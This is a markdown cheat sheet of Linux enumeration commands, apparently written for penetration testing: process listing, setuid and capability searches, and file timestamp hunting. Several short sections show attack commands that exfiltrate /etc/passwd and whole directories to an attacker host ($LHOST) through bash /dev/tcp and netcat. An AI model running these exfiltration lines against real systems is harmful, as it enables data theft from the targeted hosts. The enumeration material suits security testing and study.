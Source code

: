 # linux enumeration quick commands

## list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

## process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

## find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

## find files belonging to user
```bash
find / -user username 2>/dev/null
```

## find files belonging to group
```bash
find / -group adm 2>/dev/null
```

## find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

## find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

## get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

## get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

## find all git repositories
```bash
find / -name .git 2>/dev/null
```

## get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

## transfer / download files with just bash
### receive
```bash
LHOST=1.2.3.4
LPORT=443
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
### send
```bash
LPORT=443
nc -lvnp $LPORT < filename
```

## exfiltrate files bash pipe tcp
```bash
cat /etc/passwd > /dev/tcp/$LHOST/$LPORT
bash -c "cat /etc/passwd > /dev/tcp/$LHOST/$LPORT"
```

## find files that have millisecond microsecond nanosecond times not common install
files from package managers usually have all 0 for microsecond time in the file system, so files with microsecond times were touched by programs.
full iso time can be sorted alphabetically, so pipe to sort to sort the results.
```bash
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000 | sort
```

## copy entire directory to attacker machine quickly by piping tar
attacker
```bash
# attacker
nc -lvnp 1337 | tar -xf -
# target
tar -cf - . | nc $LHOST 1337
```

## capabilities

### get capabilities of all files recursively
```bash
getcap -r / 2>/dev/null
```

### without getcap binary
```bash
cat /proc/self/status | grep Cap
cat /proc/$pid/status | grep CapEff
```

### running process effective capabilities
```bash
cat /proc/*/status | awk '/CapEff/ && $2 !~ /^0*$/ { print name, pid, uid, $2 } /^Pid/ { pid = $2 } /^Uid/ { uid = $2 } /^Name/ { name = $2 }'
```

### decode on host machine with capsh
```bash
capsh --decode=000001ffffffffff
```

## list systemd timers
```bash
systemctl list-timers
```

## check if users can see other users' processes
the proc pseudo file system will be mounted with `hidepid=2`.
the `gid` option specifies a group id that can read all processes.
```bash
mount | grep hidepid
```

## file transfer with cat herefiles
```bash
cat << EOF >> filename.sh
# paste file contents here
EOF
```

